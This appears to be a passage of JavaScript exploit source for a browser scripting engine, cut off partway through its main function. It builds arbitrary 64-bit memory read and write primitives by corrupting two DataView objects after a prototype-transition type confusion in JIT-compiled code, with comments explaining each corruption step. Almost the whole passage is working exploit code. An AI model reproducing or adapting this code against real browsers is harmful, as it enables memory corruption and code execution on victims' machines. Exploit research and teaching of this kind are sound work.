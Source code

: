 ```html
// Function to convert to hex for memory addresses
function hex(x) {
    return x.toString(16);
}

// Arbitrary read function
function read64(lo, hi) {
    dataview1.setUint32(0x38, lo, true);        // DataView+0x38 = dataview2->buffer
    dataview1.setUint32(0x3C, hi, true);        // We set this to the memory address we want to read from (4 bytes at a time: e.g. 0x38 and 0x3C)

    // Instead of returning a 64-bit value here, we will create a 32-bit typed array and return the entire away
    // Write primitive requires breaking the 64-bit address up into 2 32-bit values so this allows us an easy way to do this
    var arrayRead = new Uint32Array(0x10);
    arrayRead[0] = dataview2.getInt32(0x0, true);   // 4-byte arbitrary read
    arrayRead[1] = dataview2.getInt32(0x4, true);   // 4-byte arbitrary read

    // Return the array
    return arrayRead;
}

// Arbitrary write function
function write64(lo, hi, valLo, valHi) {
    dataview1.setUint32(0x38, lo, true);        // DataView+0x38 = dataview2->buffer
    dataview1.setUint32(0x3C, hi, true);        // We set this to the memory address we want to write to (4 bytes at a time: e.g. 0x38 and 0x3C)

    // Perform the write with our 64-bit value (broken into two 4 bytes values, because of JavaScript)
    dataview2.setUint32(0x0, valLo, true);       // 4-byte arbitrary write
    dataview2.setUint32(0x4, valHi, true);       // 4-byte arbitrary write
}

// Function used to set prototype on tmp function to cause type transition on o object
function opt(o, proto, value) {
    o.b = 1;

    let tmp = {__proto__: proto};

    o.a = value;
}

// main function
function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, {}, {});
    }

    let o = {a: 1, b: 2};

    opt(o, o, obj);     // Instead of supplying 0x1234, we are supplying our obj

    // Corrupt obj->auxSlots with the address of the first DataView object
    o.c = dataview1;

    // Corrupt dataview1->buffer with the address of the second DataView object
    obj.h = dataview2;

    // dataview1 methods act on dataview2 object
```